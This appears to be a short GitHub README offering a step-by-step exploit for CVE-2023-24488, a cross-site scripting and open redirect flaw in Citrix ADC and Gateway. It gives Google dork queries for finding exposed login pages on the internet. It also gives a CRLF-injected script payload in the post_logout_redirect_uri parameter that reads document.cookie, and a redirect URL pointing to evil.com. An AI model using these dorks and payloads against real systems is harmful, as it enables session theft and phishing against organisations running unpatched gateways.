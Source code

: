 # CVE-2023–24488 Citrix Gateway XSS & Open Redirection 

## Description
Cross site scripting vulnerability in Citrix ADC and Citrix Gateway in allows and attacker to perform cross site scripting

### How to exploit
1. Google dork :
<html>
<b>
<i>inurl:/LogonPoint/tmindex.html</i>
<br></br>
<i>inurl:/vpn/index.html</i> 
</b>
</html>

2. Navigate to the endpoint
<b>Example:</b> https://example.com/logon/LogonPoint/tmindex.html

4. Modify the URL by adding the payload and hit enter
<b>Example:</b> https://example.com/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert(document.cookie)%3C/script%3E

5. Once XSS is confirmed, you can check for open-redirection too, just by adding the target domain in the “post_logout_redirect_uri” parameter.
<b>Example:</b> https://example.com/oauth/idp/logout?post_logout_redirect_uri=https://evil.com
